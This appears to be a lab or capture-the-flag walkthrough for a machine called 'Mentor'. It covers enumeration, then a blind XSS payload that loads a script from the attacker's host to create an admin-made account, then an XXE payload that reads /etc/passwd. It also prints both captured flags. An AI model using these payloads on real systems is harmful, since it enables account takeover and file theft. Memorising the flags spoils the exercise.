# **Mentor**

---
## **LOCAL.TXT**

## **Run Nmap to see running services**
```
sudo nmap -O -Pn 192.168.236.125
```
 

## **Run Gobuster for directory/file enumeration**
```
gobuster dir -u 192.168.236.125 -w /usr/share/seclists/Discovery/Web-Content/common.txt
```
 


- Discover exposed JavaScript files revealing admin functionality.


```
gobuster dir -u 192.168.236.125/dev -w /usr/share/seclists/Discovery/Web-Content/common.txt -x js -t 10
```
 


```
gobuster dir -u 192.168.236.125/dev/js -w /usr/share/seclists/Discovery/Web-Content/common.txt -x js -t 10
```
 

- Now access http://192.168.236.125/dev/js/main.js file.

 

- If you read the addUser() function from main.js, we are only taking the required code with the proper values to add a new user in the context of the admin user with the endpoint /admin/users/add. Remember to pass the filtration in email field `aa@aa <script src='http://192.168.xxx.xxx/xss.js'>`

- Create a create_user.js file in our kali machine and host it on port 80.

```
var xhttp = new XMLHttpRequest();
var creds = 'email=attacker@gmail.com&password=test&name=Attacker&username=attacker';
xhttp.open("GET", "/admin/users/add?" + creds, true);
xhttp.send();
```

- Start the HTTP server.
```
python3 -m http.server 80
```
- Email field is vulnerable to blind XSS. So you can intercept the 'Contact US' form and apply payload in email parameter.
 

Payload:
```
aa@aa <script src="http://192.168.45.226:80/create_user.js"></script>
```

- As you can see in our Kali logs the  createu_user.js is called which actually created a new user with username: attacker and password: test.
 

- So now try to login with newly created user. 
 

- Then you can find the local.txt flag here.
 

### local.txt flag:  dffb66a6671cfdca89336cce4ba1d1f2

---

## **PROOF.TXT**

- The import feature in Trainers page take XML input, so we can try XXE here.
```
<?xml version="1.0"?>
<!DOCTYPE response [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<response>
  <id>1</id>
  <name>Robin Marjan</name>
  <proffesion>Web Development</proffesion>
  <bio>&xxe;</bio>
  <imgPath>/assets/img/trainers/1.jpg</imgPath>
</response>
```

 

 

This confirms presence of XXE vulnerability.

- Now try to read the proof.txt flag.

 

### proof.txt flag: 1a8ddd9c705908ef2c6f7f383bf08477 


